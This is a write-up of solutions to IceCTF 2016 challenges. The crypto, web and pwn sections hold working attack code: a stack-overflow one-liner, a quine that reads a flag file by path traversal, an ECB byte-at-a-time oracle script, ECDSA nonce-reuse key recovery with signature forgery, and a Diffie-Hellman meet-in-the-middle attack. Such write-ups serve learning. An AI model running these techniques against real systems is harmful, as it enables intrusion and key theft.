




# IceCTF Solutions

This page contains some of the challanges I solved during IceCTF '16.

## Reconnaissance & Forensics
### Complacement (40 p)

```
These silly bankers have gotten pretty complacent with their self signed SSL certificate. 
I wonder if there's anything in there. [complacent.vuln.icec.tf]
```



### Time Traveler (45 p)

```
I can assure you that the flag was on this website (http://time-traveler.icec.tf) at some point in time. 
```

Let us try the Wayback Machine!



### Audio problems (45 p)
```
We intercepted this audio signal, it sounds like there could be something hidden in it. 
Can you take a look and see if you can find anything? 
```

In Audacity, we can get the spectrum:



Feels like I've solved this very same problem a couple of times now... get creative problem makers!

##Web
### Toke (45 p)

I have a feeling they were pretty high when they made this [website](http://toke.vuln.icec.tf)... 

We create an account and look at the tokens. There is a `jwt_token`, containing 

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmbGFnIjoiSWNlQ1RGe2pXN190MEszbnNfNFJlX25PX3AxNEN
FX2ZPUl81M0NyRTdTfSIsInVzZXIiOiIxMjM0YWEifQ.tfe4bqNnoRb2OOd7KV88qov5Y6oe55Cs2knKLo28Z7s
```

Let us decode it! Among other things, we get 
```
IceCTF{jW7_t0K3ns_4Re_nO_p14CE_fOR_53CrE7S}
```
### Kitty (80 p)

```
They managed to secure their website this time and moved the hashing to the server :(.
We managed to leak this hash of the admin's password though! 

c7e83c01ed3ef54812673569b2d79c4e1f6554ffeb27706e98c067de9ab12d1a. 

Can you get the flag? [kitty.vuln.icec.tf]
```

OK, trying the most simple and obvious... reversing the hash works! The password is `Vo83*`. If we login as `admin` with the password we found, we see:

```
Your flag is: IceCTF{i_guess_hashing_isnt_everything_in_this_world}
```
##Pwn
### Demo (55 p)

```
I found this awesome premium shell, but my demo version just ran out... 
can you help me crack it? /home/demo/ on the shell. 
```

This is probably not the intended solution. Trying to execute `_=icesh && ./demo` does not work in `zsh`, but it does in `sh`. This requires no spoofing for `argv[0]`, and thus no execve code. Less work!

```
[ctf-67751@icectf-shell-2016 /home/demo]$ sh
$ _=icesh && ./demo
$ cat flag.txt
IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
```

### Smashing Profit! (60 p)

```
Do you think you can make this program jump to somewhere it isn't supposed to? 
Where we're going we don't need buffers! 

/home/profit/ on the shell. 
```

OK, let us go to the shell. Not surprisingly, `profit` suffers from a buffer overflow. Loading the binary into Hopper, we see that there is a subroutine @ `0x804850b` which would be suitable to call:



Here is how to exploit the buffer overflow to call the above function:

```
[ctf-67751@icectf-shell-2016 /home/profit]$ python -c 'print "A"*76 + "\x08\x04\x85\x0b"[::-1]' | ./profit
Smashing the stack for fun and...?
IceCTF{who_would_have_thunk?}
[1]    25262 done                python -c 'print "A"*76 + "\x08\x04\x85\x0b"[::-1]' | 
       25263 segmentation fault  ./profit
```

### Quine I/II (90p / 125p)

This was a really entertaining challenge. The first idea was based on a false assumption, i.e., that the outputted code in the final iteration was not checked. Let us sketch the idea anyways. If we are able to store some data outside the code, we are able to count the iterations without altering the code. The stored data could be in an environment variable (but that turned out to be infeasible) or a file (we could create, read and write files in the sandbox where the code was running).

So, in pseudo code:

```python
if 'some_file' exists:
	c = read('some_file')
	c += 1
	if c < 19:
		print flag with system() call
	write('some_file', c)
else:
	create('some_file')
	write('some_file', 0)
```
We noticed that the code is located in `./sandbox/[random token]-[time]`, so maybe the flag is `../../flag.txt`. This is of course a guess (which turns out to be correct). Encoding the above pseudo code as a quine, we get something like

```c
const char d[]={125,59,10,35,105,110,99,108,117,100,101,32,60,115,116,100,105,111,46,104,62,10,105,110,116,32,109,97,105,110,40,41,123,70,73,76,69,32,42,102,59,102,61,102,111,112,101,110,40,34,103,34,44,34,114,98,43,34,41,59,105,102,40,102,61,61,78,85,76,76,41,102,61,102,111,112,101,110,40,34,103,34,44,34,119,98,34,41,59,99,104,97,114,32,98,61,102,103,101,116,99,40,102,41,59,102,99,108,111,115,101,40,102,41,59,102,61,102,111,112,101,110,40,34,103,34,44,34,119,43,34,41,59,105,102,40,98,60,49,57,41,123,98,43,43,59,102,112,117,116,99,40,98,44,102,41,59,125,101,108,115,101,123,102,61,102,111,112,101,110,40,34,102,108,97,103,34,44,34,114,34,41,59,98,61,102,103,101,116,99,40,102,41,59,119,104,105,108,101,40,98,33,61,69,79,70,41,123,112,114,105,110,116,102,40,34,37,99,34,44,98,41,59,98,61,102,103,101,116,99,40,102,41,59,125,125,102,99,108,111,115,101,40,102,41,59,112,114,105,110,116,102,40,34,99,111,110,115,116,32,99,104,97,114,32,100,91,93,61,123,34,41,59,105,110,116,32,105,59,102,111,114,40,105,61,48,59,105,60,115,105,122,101,111,102,40,100,41,59,105,43,43,41,123,112,114,105,110,116,102,40,34,37,100,44,34,44,100,91,105,93,41,59,125,102,111,114,40,105,61,48,59,105,60,115,105,122,101,111,102,40,100,41,59,105,43,43,41,112,117,116,99,104,97,114,40,100,91,105,93,41,59,114,101,116,117,114,110,32,48,59,125,10,};
#include <stdio.h>
int main(){FILE *f;f=fopen("g","rb+");if(f==NULL)f=fopen("g","wb");char b=fgetc(f);fclose(f);f=fopen("g","w+");if(b<19){b++;fputc(b,f);}else{f=fopen("flag","r");b=fgetc(f);while(b!=EOF){printf("%c",b);b=fgetc(f);}}fclose(f);printf("const char d[]={");int i;for(i=0;i<sizeof(d);i++){printf("%d,",d[i]);}for(i=0;i<sizeof(d);i++)putchar(d[i]);return 0;}
```

Obviously, this did not work. New strategy needed! If we can guess a char of the flag and write the guess to the submitted code, then read the corresponding char from `../../flag.txt` it will accept if and only if they match. So, where do we put our guess? We could put it in a string, but a simpler solution is to write it to a comment. We know that the flag begins with `IceCTF{`, so we can try out our hypothesis and be sure that it is correct. The following code can generate a quine for a certain guess:

```python
import sys
guess = 'I' # the first char of the flag
length = 1
data = '''};
#include <stdio.h>
int main(){printf("const char d[]={");int i;for(i=0;i<sizeof(d);i++){printf("%d,",d[i]);}for(i=0;i<sizeof(d);i++)putchar(d[i]);FILE *f;f=fopen("../../flag.txt","r");printf("//");for(i=0;i<'''+str(length)+''';i++){char b=fgetc(f);printf("%c",b);};return 0;}'''
quine = 'const char d[]={'+''.join(str(ord(c))+',' for c in data) + data.strip('\n')+'//'+guess
```

We call it with

```
$ python quine_gen.py 1 | cat quine.c | nc quine.vuln.icec.tf 5500
...
//I
```

Now this is where this get interesting. The code obviously works for `I`, but even for incorrect guesses. And it prints as many chars of the flag as we like! Seemingly, the check ignored any comments. So after setting the read length (`length = sys.argv[1]`)sufficiently large we can submit auto-generated code as follows:

```
$ python quine_gen.py 32 | cat quine.c | nc quine.vuln.icec.tf 5500
...
//IceCTF{the_flags_of_our_quines}

$ python quine_gen.py 55 | cat quine.c | nc quine.vuln.icec.tf 5501
...
//IceCTF{my_f1x3d_p0inT_br1nGs_alL_th3_n00bs_t0_th3_y4rD}
```

Great! Two challenges solved with two almost identical quines :-D

##Crypto
### RSA? (50 p)

```
John was messing with RSA again... he encrypted our flag! I have a strong feeling 
he had no idea what he was doing however, can you get the flag for us? flag.txt
```

OK, let us see that `flag.txt` contains

```
$ cat flag.txt

N=0x180be86dc898a3c3a710e52b31de460f8f350610bf63e6b2203c08fddad44601d96eb454a34dab7684589bc32b19eb27cffff8c07179e349ddb62898ae896f8c681796052ae1598bd41f35491175c9b60ae2260d0d4ebac05b4b6f2677a7609c2fe6194fe7b63841cec632e3a2f55d0cb09df08eacea34394ad473577dea5131552b0b30efac31c59087bfe603d2b13bed7d14967bfd489157aa01b14b4e1bd08d9b92ec0c319aeb8fedd535c56770aac95247d116d59cae2f99c3b51f43093fd39c10f93830c1ece75ee37e5fcdc5b174052eccadcadeda2f1b3a4a87184041d5c1a6a0b2eeaa3c3a1227bc27e130e67ac397b375ffe7c873e9b1c649812edcd

e=0x1

c=0x4963654354467b66616c6c735f61706172745f736f5f656173696c795f616e645f7265617373656d626c65645f736f5f63727564656c797d

```

John used exponent `0x1`, so m is enevitably the same as c. Therefore, solving this challenge is no harder than `libnum.n2s(c)`, which prints 
```
IceCTF{falls_apart_so_easily_and_reassembled_so_crudely}
```
### RSA (60 p)

```
This time John managed to use RSA " correctly "&ellipsis; 
I think he still made some mistakes though. flag.txt 
```

Let us take a look...

```
$ cat flag.txt

N=0x1564aade6f1b9f169dcc94c9787411984cd3878bcd6236c5ce00b4aad6ca7cb0ca8a0334d9fe0726f8b057c4412cfbff75967a91a370a1c1bd185212d46b581676cf750c05bbd349d3586e78b33477a9254f6155576573911d2356931b98fe4fec387da3e9680053e95a4709934289dc0bc5cdc2aa97ce62a6ca6ba25fca6ae38c0b9b55c16be0982b596ef929b7c71da3783c1f20557e4803de7d2a91b5a6e85df64249f48b4cf32aec01c12d3e88e014579982ecd046042af370045f09678c9029f8fc38ebaea564c29115e19c7030f245ebb2130cbf9dc1c340e2cf17a625376ca52ad8163cfb2e33b6ecaf55353bc1ff19f8f4dc7551dc5ba36235af9758b

e=0x10001

phi=0x1564aade6f1b9f169dcc94c9787411984cd3878bcd6236c5ce00b4aad6ca7cb0ca8a0334d9fe0726f8b057c4412cfbff75967a91a370a1c1bd185212d46b581676cf750c05bbd349d3586e78b33477a9254f6155576573911d2356931b98fe4fec387da3e9680053e95a4709934289dc0bc5cdc2aa97ce62a6ca6ba25fca6ae366e86eed95d330ffad22705d24e20f9806ce501dda9768d860c8da465370fc70757227e729b9171b9402ead8275bf55d42000d51e16133fec3ba7393b1ced5024ab3e86b79b95ad061828861ebb71d35309559a179c6be8697f8a4f314c9e94c37cbbb46cef5879131958333897532fea4c4ecd24234d4260f54c4e37cb2db1a0

d=0x12314d6d6327261ee18a7c6ce8562c304c05069bc8c8e0b34e0023a3b48cf5849278d3493aa86004b02fa6336b098a3330180b9b9655cdf927896b22402a18fae186828efac14368e0a5af2c4d992cb956d52e7c9899d9b16a0a07318aa28c8202ebf74c50ccf49a6733327dde111393611f915f1e1b82933a2ba164aff93ef4ab2ab64aacc2b0447d437032858f089bcc0ddeebc45c45f8dc357209a423cd49055752bfae278c93134777d6e181be22d4619ef226abb6bfcc4adec696cac131f5bd10c574fa3f543dd7f78aee1d0665992f28cdbcf55a48b32beb7a1c0fa8a9fc38f0c5c271e21b83031653d96d25348f8237b28642ceb69f0b0374413308481

c=0x126c24e146ae36d203bef21fcd88fdeefff50375434f64052c5473ed2d5d2e7ac376707d76601840c6aa9af27df6845733b9e53982a8f8119c455c9c3d5df1488721194a8392b8a97ce6e783e4ca3b715918041465bb2132a1d22f5ae29dd2526093aa505fcb689d8df5780fa1748ea4d632caed82ca923758eb60c3947d2261c17f3a19d276c2054b6bf87dcd0c46acf79bff2947e1294a6131a7d8c786bed4a1c0b92a4dd457e54df577fb625ee394ea92b992a2c22e3603bf4568b53cceb451e5daca52c4e7bea7f20dd9075ccfd0af97f931c0703ba8d1a7e00bb010437bb4397ae802750875ae19297a7d8e1a0a367a2d6d9dd03a47d404b36d7defe8469
```

We have d (and ϕ), so `libnum.n2s(pow(c,d,N))` gives 
```
IceCTF{rsa_is_awesome_when_used_correctly_but_horrible_when_not}
```
### RSA2 (60 p)

```
I guess the 3rd time is the charm? Or not... flag.txt 

$ cat flag.txt

N=0xee290c7a603fc23300eb3f0e5868d056b7deb1af33b5112a6da1edc9612c5eeb4ab07d838a3b4397d8e6b6844065d98543a977ed40ccd8f57ac5bc2daee2dec301aac508f9befc27fae4a2665e82f13b1ddd17d3a0c85740bed8d53eeda665a5fc1bed35fbbcedd4279d04aa747ac1f996f724b14f0228366aeae34305152e1f430221f9594497686c9f49021d833144962c2a53dbb47bdbfd19785ad8da6e7b59be24d34ed201384d3b0f34267df4ba8b53f0f4481f9bd2e26c4a3e95cd1a47f806a1f16b86a9fc5e8a0756898f63f5c9144f51b401ba0dd5ad58fb0e97ebac9a41dc3fb4a378707f7210e64c131bca19bd54e39bbfa0d7a0e7c89d955b1c9f

e=0x10001

c=0x3dbf00a02f924a70f44bdd69e73c46241e9f036bfa49a0c92659d8eb0fe47e42068eaf156a9b3ee81651bc0576a91ffed48610c158dc8d2fb1719c7242704f0d965f8798304925a322c121904b91e5fc5eb3dc960b03eb8635be53b995217d4c317126e0ec6e9a9acfd5d915265634a22a612de962cfaa2e0443b78bdf841ff901423ef765e3d98b38bcce114fede1f13e223b9bd8155e913c8670d8b85b1f3bcb99353053cdb4aef1bf16fa74fd81e42325209c0953a694636c0ce0a19949f343dc229b2b7d80c3c43ebe80e89cbe3a3f7c867fd7cee06943886b0718a4a3584c9d9f9a66c9de29fda7cfee30ad3db061981855555eeac01940b1924eb4c301

```

Looking up N on [factordb.com](factordb.com), we find that it has a very small factor 57970027. Hence, we may compute ϕ(N) = (57970027 - 1) × (N / 57970027 - 1). Finally, the secret exponent is d = e⁻¹ mod ϕ(N). Knowning this, we may decrypt c.

The code

```python
phi = (57970027 - 1) * (N / 57970027 - 1)
d = libnum.modular.invmod(e, phi)
print libnum.n2s(pow(c, d, N))
```

prints 

```
IceCTF{next_time_check_your_keys_arent_factorable}
```

### l33tcrypt (90 p)

```
l33tcrypt is a new and fresh encryption service. For added security it pads all information with the flag! 
Can you get it? nc l33tcrypt.vuln.icec.tf 6001 server.py
```

The server AES encrypts a string S along with the flag and some padding and returns the BASE64 encoded, i.e., as outlined below.


```python
def server(string):
	ciphertext = encrypt(string + flag + padding)
	return b64encode(ciphertext)
```

The AES encryption function operates on blocks of size 128 bits. Assume that we have a block as follows, where we have padded the plaintext with `AAAAAAAAAAAAAAAA` and where `???...` corresponds to the flag. The last char in the block is the first byte of the flag.

```

              ... AAAAAAAAAAAAAAAA? ????????????????
|----------------|-----------------|----------------|

			        0xb4ff343...

```

We save the current block value `0xb4ff343...`. Now, we run the guessing procedure:

```

              ... AAAAAAAAAAAAAAAAx ????????????????
|----------------|-----------------|----------------|

         x = 'G'     0x57388f8...
         x = 'H'     0x343409f...
         X = 'I'     0xb4ff343...  <-- correct guess

```

Obviously, we can choose a block `AAAAAAAAAAAAAAA??` and guess the second byte and so forth until the whole flag is found. We may implement it in Python as follows:


```python
import base64, socket, string

magic = 'l33tserver please'

def oracle(plaintext):
    s = socket.create_connection(('l33tcrypt.vuln.icec.tf', 6001))
    s.recv(1024)
    s.recv(1024)
    s.send(base64.b64encode(magic + plaintext) + '\n')
    s.recv(1024)
    return base64.b64decode(s.recv(1024))
    
known_prefix = 'IceCTF{unleash_th3_Blocks_aNd_find_what_you_seek'

print '[+] Running trying plaintexts...'

while True:

    i = 16 * 4 - 2 - len(known_prefix)

    reference = oracle(i * 'A')[0:80]
    
    for guess in '_' + string.ascii_letters + string.digits + '}':
        if reference == oracle(i * 'A' + known_prefix + guess)[0:80]:
            known_prefix = known_prefix + guess
            print known_prefix
            break
    
    if guess == '}':
        print '[+] DONE!'
        break
```

The code takes some time to run (could be threaded for improved performance). When it is done, it will have given the flag 
```
IceCTF{unleash_th3_Blocks_aNd_find_what_you_seek}
```
### Over the Hill (65 p)

```
Over the hills and far away... many times I've gazed, many times been bitten. Many dreams come true and some have silver linings, I live for my dream of a decrypted flag. crypted 
```

We are given a matrix and a ciphertext

```python
secret  = [[54, 53, 28, 20, 54, 15, 12, 7],
          [32, 14, 24, 5, 63, 12, 50, 52],
          [63, 59, 40, 18, 55, 33, 17, 3],
          [63, 34, 5, 4, 56, 10, 53, 16],
          [35, 43, 45, 53, 12, 42, 35, 37],
          [20, 59, 42, 10, 46, 56, 12, 61],
          [26, 39, 27, 59, 44, 54, 23, 56],
          [32, 31, 56, 47, 31, 2, 29, 41]]
		  
ciphertext = "7Nv7}dI9hD9qGmP}CR_5wJDdkj4CKxd45rko1cj51DpHPnNDb__EXDotSRCP8ZCQ"
```

Looks like a Hill cipher... the name vaguely suggests it... :-)

```python

import numpy
from sage.all import *

alphabet = ("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789_{}")
n = len(alphabet)

Zn = IntegerModRing(n)

secret  = [[54, 53, 28, 20, 54, 15, 12, 7],
          [32, 14, 24, 5, 63, 12, 50, 52],
          [63, 59, 40, 18, 55, 33, 17, 3],
          [63, 34, 5, 4, 56, 10, 53, 16],
          [35, 43, 45, 53, 12, 42, 35, 37],
          [20, 59, 42, 10, 46, 56, 12, 61],
          [26, 39, 27, 59, 44, 54, 23, 56],
          [32, 31, 56, 47, 31, 2, 29, 41]]

secret = matrix(Zn, secret).inverse()
ciphertext = "7Nv7}dI9hD9qGmP}CR_5wJDdkj4CKxd45rko1cj51DpHPnNDb__EXDotSRCP8ZCQ"

blocks = [ciphertext[i : i + secret.ncols()] for i in range(0, len(ciphertext), secret.ncols())]

plaintext = ''

for block in blocks:
    decrypted_block = secret * matrix(Zn, [alphabet.find(c) for c in block]).transpose()
    plaintext +=  ''.join(alphabet[int(i[0])] for i in decrypted_block)
    
print plaintext

```

Invoked with `sage -python over_the_hill.py` gives 
```
IceCTF{linear_algebra_plus_led_zeppelin_are_a_beautiful_m1xture}
```
### Round Rabins (70 p)

Breaking Rabin cryptosystem is hard if the primes were chosen properly. This is probably the flaw here, or the challenge would be computationally hard. Lets try [factordb.com]. It reports that `N` is square. OK, great.

```python

import libnum

N = 0x6b612825bd7972986b4c0ccb8ccb2fbcd25fffbadd57350d713f73b1e51ba9fc4a6ae862475efa3c9fe7dfb4c89b4f92e925ce8e8eb8af1c40c15d2d99ca61fcb018ad92656a738c8ecf95413aa63d1262325ae70530b964437a9f9b03efd90fb1effc5bfd60153abc5c5852f437d748d91935d20626e18cbffa24459d786601
c = 0xd9d6345f4f961790abb7830d367bede431f91112d11aabe1ed311c7710f43b9b0d5331f71a1fccbfca71f739ee5be42c16c6b4de2a9cbee1d827878083acc04247c6e678d075520ec727ef047ed55457ba794cf1d650cbed5b12508a65d36e6bf729b2b13feb5ce3409d6116a97abcd3c44f136a5befcb434e934da16808b0b

x = libnum.common.nroot(N, 2)
assert(N == x ** 2)

```

The code passes, so we are fine. Now, how do we solve a modular square root in squared prime modulus x²? First of all, we can solve the simpler problem in the smaller field Zₓ. We can use for instance PARI/GP `factor(x^2 - Mod(c%p,p))`. We now have the square roots

```python
m1 = 1197994153960868322171729195459307471159014839759650672537999577796225328187763637327668629736211144613889331673398920144625276893868173955281904541942494
m2 = p - m1
```

We now need to lift it to square modulus, i.e., m₁ mod x². We achieve this as follows

```python
q = (c - m1 ** 2) / p
l = q * libnum.modular.invmod(2 * m1, p)
m = m1 + l * p

print libnum.n2s(m % N)
```

Running this, we get the flag
```
IceCTF{john_needs_to_get_his_stuff_together_and_do_things_correctly}
```
### Contract (130 p)

```
Our contractors stole the flag! They put it on their file server and challenged us to get it back. Can you do it for us? nc contract.vuln.icec.tf 6002 server.py. We did intercept someone connecting to the server though, maybe it will help. contract.pcapng 
```

This is clearly a nonce reuse, which leads to a standard attack. First, we compute the secret value k = (z₁ - z2) × (s₁ - s2)⁻¹ using a signature pair. Then, using a single signature in conjunction with k, we may find d = (s₁ × k - z₁) × (r₁)⁻¹. All modular operations are performed mod n.
Embodied in Python, the attack is performed as follows.

```python
import hashlib, libnum, binascii, socket
from ecdsa import VerifyingKey, SigningKey

def send(message):
    s = socket.create_connection(('contract.vuln.icec.tf', 6002))
    s.send(message + '\n')
    print s.recv(1024)
    print s.recv(1024)
    return 

PUBLIC_KEY = '''
-----BEGIN PUBLIC KEY-----
MHYwEAYHKoZIzj0CAQYFK4EEACIDYgAEgTxPtDMGS8oOT3h6fLvYyUGq/BWeKiCB
sQPyD0+2vybIT/Xdl6hOqQd74zr4U2dkj+2q6+vwQ4DCB1X7HsFZ5JczfkO7HCdY
I7sGDvd9eUias/xPdSIL3gMbs26b0Ww0
-----END PUBLIC KEY-----
'''

vk = VerifyingKey.from_pem(PUBLIC_KEY.strip())
n = vk.pubkey.order

help_cmd = 'help:c0e1fc4e3858ac6334cc8798fdec40790d7ad361ffc691c26f2902c41f2b7c2fd1ca916de687858953a6405423fe156cfd7287caf75247c9a32e52ab8260e7ff1e46e55594aea88731bee163035f9ee31f2c2965ac7b2cdfca6100d10ba23826'
time_cmd = 'time:c0e1fc4e3858ac6334cc8798fdec40790d7ad361ffc691c26f2902c41f2b7c2fd1ca916de687858953a6405423fe156c0cbebcec222f83dc9dd5b0d4d8e698a08ddecb79e6c3b35fc2caaa4543d58a45603639647364983301565728b504015d'
read_flag_cmd = 'read flag.txt'

msg1, sig1 = help_cmd.split(':')
msg2, sig2 = time_cmd.split(':')
z1 = int(hashlib.sha256(msg1).hexdigest(), 16)
z2 = int(hashlib.sha256(msg2).hexdigest(), 16)
r1 = int(sig1[0 : len(sig1)/2], 16)
s1 = int(sig1[len(sig1)/2 : len(sig1)], 16)
r2 = int(sig2[0 : len(sig2)/2], 16)
s2 = int(sig2[len(sig2)/2 : len(sig2)], 16)

k = libnum.modular.invmod(s1 - s2, n) * (z1 - z2) % n
d = (s1 * k - z1) * libnum.modular.invmod(r1, n) % n
sk = SigningKey.from_secret_exponent(d, curve=vk.curve)

send(read_flag_cmd + ':' + binascii.hexlify(sk.sign(read_flag_cmd, hashfunc=hashlib.sha256)))
```

Once run, the server responds 
```
IceCTF{a_f0rged_signatur3_is_as_g00d_as_a_real_1}
```

### Flagstaff (160 p)

```
Someone hid his flag here... guess we better give up. 

nc flagstaff.vuln.icec.tf 6003 server.py 
```

The task is to find a ciphertext which decrypts to `flag` + padding.

```python
import socket, base64

def send(commands):
   s = socket.create_connection(('flagstaff.vuln.icec.tf', 6003))
   s.recv(1024)
   print s.recv(1024)
   for cmd in commands:
       print '>> Sending:', cmd
       s.send(cmd + '\n')
       data = s.recv(1024).strip('\n')
   s.recv(1024)
   return data

data = 'flag' + '\x0c' * 0xc
encrypted = send(['decrypt', base64.b64encode(data + data)])
c = base64.b64decode(encrypted)[0:16]
data = send(['secret', base64.b64encode(c + data)])
data = send(['decrypt', data])
print 'FLAG:', base64.b64decode(data)
```

Running the code, we get

```
Send me a command: 
>> Sending: decrypt
>> Sending: ZmxhZwwMDAwMDAwMDAwMDGZsYWcMDAwMDAwMDAwMDAw=
Send me a command: 
>> Sending: secret
>> Sending: gaugSIvRkYtiHvaA8LepemZsYWcMDAwMDAwMDAwMDAw=
Send me a command: 
>> Sending: decrypt
>> Sending: ZEkWhSKVwJ/Z8MQYzdMH6ZaHqAcoEKg4GxKzlHc7I4tDmi5tKnPGE3rm/D5ZJpHbHuxv8yNCNqLVU0g7yOSi7Ic3xgP7Ke7kEADYzQQGtsc=
FLAG: IceCTF{reverse_all_the_blocks_and_get_to_the_meaning_behind}
```

### Attack of the Hellman! (200 p)

```
We managed to intercept a flag transmission but it was encrypted :(. 
We got the Diffie-Hellman public key exchange parameters and some 
scripts they used for the transmission along with the encrypted flag. 

Can you get it for us? 
````

According to the scripts, the secret A is generated properly. What about B? If it is small enough (say, less than N), we can use a time-memory trade-off (or meet-in-the-middle). Such a trade-off requires O(√N) time and the same magnitude of memory.

```python
import base36

p=0x113b7d158a909efadc7216ca15fd51c419eb41ab108e0aa1d45da70c78185593d44bdb402476181c008ef36bc5378b0ad4c868ca4ed4f754c3c1b1f0891bcd8ad7d3db07251de90f4362cb5895f836eec8851d3fe3d68083db8a63053ec4078a55df017f1d43393f3aa2a453bb334417671731731e1e7687c77d104ff76aed523b6980831a4c4b55d74c4de77462d9a596ce7fcb3090d0abb8f94989c1b3701e533ebd722c855fba9ff17d64ce9b3306841157ee49b1c1fb3a38c93b9faaa84efcfdceba923b73b8682835ca322a1350bcc322d7eb34259d8302f55157c2c5d72c8aebb7b57f9f08809ee034258cf2e3c8e0982a155b72fdc79432eceb83b49d9
g=0xa9074b6e6d5bba3d024b90eeaee1f5b969fee32c5c25b91698755450509a8beb4100b046c9c6601981e208bc6e505aa67fdd224eff829a8cd8ebc1267c2cb4192b18ab1bcf5dba908e2cd849be038b5d52d5cf836eed63ee54fab1838a7152361a298bbeab3cc2d6f2b84097622fa5493dca99b4b6a648dcc886b607a8dc9590d995cf2e1f24ac5f277a2260d34410dc3b832ed6dc4928e92dfa8a807ddbdf77574d7bb34a45ca08bb7c8b89aa1fd1380abcbd75f99d3e819da9617356b650f9cc21ccffe913b09ca547967bb12feedbdb97730ccff09cc63aab6f6fc7b33392211da29bf32538b38a514cad4ea271e97618e39b0ab7cb152499093b7afbae2f
A=0x18776a5cf81fc30572aa9682dfb2f7d606e8073de536853dd9be8a391261dcca6cebea2a2b1337f2a057d238152729cea6983a8ef2b111d8096f212db771229830e2e6d4839a37355d4efb265183f199cd573fa99a38183e7ee3cc7fdac7c92078b6c1535b142965379f1c7e73d5a95725dfb75749529a687bf9b7e01a0b4511a05d96999608c2527a0308f2360d26706233d451f62edc8f2e76fde85c631b601d12a828657efe65aba78fccd46d79a84bc3380da71fad6472d9e666fd99fbd7c154555501b608d4cef875099e037eef3712a5e3108f95c1e01b2a8f0961569c77738a459b65b0ac39109b30ab3226d7b92a1db080a99bbb86f6e96266b13df7
B=0xbecd8332380e8c0f3969602e4924473ade119dad5fe6f2d9582dc8196ae85dfa80fab3c001f8bea1ca6c63b9f8f264742beaede2bd11c86bf4d6a0fa7df1dd84da318a7142f2228dbb8dd37a5a3c5a772dd2c744184a41743f4286ba2ccfa431c1571cd63a9ee1bb398b4dd09ccaa426b37f72f4452c2f37a96634e8d6604362e2836891818e9744f00323ade93e10aa1785cc1865fff57ec5caacf74b11ebed16384613145a2e33141a9523252b952cf0eb9c33914d067b66a2a03133f044f336efee054eec905dfa14af970f556b44c52e3814e0914a2393bb56da5aca7b88c45fcaf02f76fc9718746c15901b8ea86801f0b07eca7385dd1cb6991e65e421

table = {}
S = 0

print '[-] Generating table...'

for i in range(0, 2**33, 2**20): # sufficient bounds
   table[pow(g, i, p)] = i

print '[-] Performing look-up in table...'

for i in range(0, 2**18):
   B = (B * g) % p
   if B in table:
       print  ' >> B = g ^', table[B] - i
       S = pow(A, table[B] - i, p)
       break

print '[+] Key found:\n\n', base36.dumps(S), '\n'
```

I saved the code as `hellman.py` and did the following terminal magic:

```
$ python hellman.py 
[-] Generating table...
[-] Performing look-up in table...
 >> B = g ^ 4856995548
[+] Key found:

1kqgc7f6xza9dbakto3h58hin09x7pbh28tb288r4xrrrdshcymf6c5pgt03kfirpvc75aboptmn6qzuga4ka753wz5w0sokp1i8u787qklcecnhd0wp2l6i73wesuxsl958vsmobt0e4b24mycgk9e65vkk5xxp4es6hujivdgxonn5dsvb0y5hh5aj59vshz088981qccgzecq3xkg2hdpmbjntbrmd4zsdxfsl8kweabbt0a8n6bgaqafo2e1nibo74c28iaoi7r25k1l7y3sjec040ao54bdwtoohevijf8jc9n94h16kgr1fbzy15eoiu6j49pifo8qeu927ns34iq5409ws41iahkchnofhqjai2r7bpfsen9vwofpckwdsbjovinzn

